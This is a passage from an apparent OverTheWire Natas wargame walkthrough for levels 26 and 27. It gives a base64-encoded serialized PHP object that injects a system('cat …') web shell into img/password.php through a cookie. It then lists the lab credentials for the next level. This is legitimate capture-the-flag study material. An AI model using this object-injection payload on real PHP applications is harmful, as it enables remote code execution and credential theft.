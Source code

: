 {% code overflow="wrap" %}
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNjoiaW1nL3Bhc3N3b3JkLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```
{% endcode %}

I captured the request to the web page using burpsuite and modified the value of the cookie `drawing` with the cookie that we generated, which responded with an error, indicating successfull execution of code.

<figure><img src=".gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Now, to get the password, check the `img/password.php` file, you can see the credential for the next level.

<figure><img src=".gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

***

## Level 26 - Level 27

```
Username: natas27
Password: PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3
URL:      http://natas27.natas.labs.overthewire.org
```
